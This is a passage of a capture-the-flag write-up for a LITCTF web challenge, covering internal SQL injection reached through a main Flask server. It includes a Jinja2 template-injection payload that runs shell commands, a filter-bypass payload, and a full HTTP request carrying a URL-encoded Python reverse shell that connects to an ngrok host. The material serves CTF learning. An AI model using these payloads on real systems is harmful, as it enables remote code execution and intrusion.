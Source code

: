 ```python

app.run(host='127.0.0.1',port=8080,debug=True)
```

In this server, they'll check our input of username and password from the main server, the query is sqli-able so we just need to inject it and leak the flag easily. But it wasn't that easy, the data server only response when the main server request to it, so it has to be internal server. After analysing, we'll know the workflow of the website.

- First the main server will check if our input username and password has any dot in it, if don't, they will send a request to data server with our input username and password (and alphanumericalOnly) as json.
- The data server will receive the request and treat our input by adding it to a query which check the username and password and then return True if it right or False if not (boolean based sqli)
- Come back to the main server, if the data server return True, it will render `OMG you are like so good at guessing our flag I am lowkey jealoussss.` which means we have input the right flag, but it's impossible to has this show up because we can't input `{` since the request of data is alphanumerical only. So it'll always return `ok thank you for your info i have now sold your password (" + password + ") for 2 donuts :)`

The thing we want is the True and False return from the data server, not the render of main server, which means we have to make the request from the main server, so it will be able to connect with internal server. To do that, we have to RCE the server first.

```python
{{lipsum['__globals__']['os']['popen']('ls')['read']()}}
```

![image](https://user-images.githubusercontent.com/75429369/180784191-46f382c4-cb43-4e47-be93-99625bd6f9dd.png)

We want to know the IP of the data server to make request to it, so we have to read the `main.py`. Since it has the dot in the name file so I decided to get reverse shell to intuitively do the challenge.

I'll use the inject-directly-to-config-and-popen-it method (you can find out how in my ImaginaryCTF write up), i won't explain it here.

```
POST /?t=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%220.tcp.ap.ngrok.io%22%2C12720%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27 HTTP/1.1
Host: litctf.live:31781
Content-Length: 145
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://litctf.live:31781
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://litctf.live:31781/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=assdf&password=%7B%7B%28config%7Cattr%28dict%28up%3Dup%2Cdate%3Ddate%29%7Cjoin%29%29%28t%3Drequest%5B%27args%27%5D%5B%27t%27%5D%29%7D%7D
```

![image](https://user-images.githubusercontent.com/75429369/180790318-8867c96d-eaa5-4db3-8f22-32ccfcb4d1c1.png)

Read `{{config}}`

![image](https://user-images.githubusercontent.com/75429369/180790436-38012c35-e814-435d-b3a3-14946f3a2710.png)

